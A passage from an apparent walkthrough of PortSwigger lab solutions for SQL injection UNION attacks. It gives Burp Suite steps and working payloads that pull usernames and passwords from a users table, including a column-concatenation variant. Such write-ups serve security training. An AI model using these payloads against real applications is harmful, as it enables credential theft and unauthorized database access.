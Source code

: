 
### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: 
```
'+UNION+SELECT+'abc','def'--.
```
3. Use the following payload to retrieve the contents of the users table: 
```
'+UNION+SELECT+username,+password+FROM+users--
```
4. Verify that the application's response contains usernames and passwords.

## SQL injection UNION attack, retrieving multiple values in a single column
### Reference: [PortSwigger: SQL injection UNION attack: Retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)


### Quick Solution
The original query returns two colums, but only one contains text. Multiple values can be retrieved together including a suitable separator to let distinguish the combined values. The payload for this lab is the following:
```
' UNION SELECT username || '~' || password FROM users--
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, only one of which contain text, using a payload like the following in the ``category`` parameter: 
```
'+UNION+SELECT+NULL,'abc'--
```
3. Use the following payload to retrieve the contents of the users table: 
```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
4. Verify that the application's response contains usernames and passwords.

## SQL injection attack, querying the database type and version on Oracle
### Reference: [PortSwigger: SQL injection: Querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
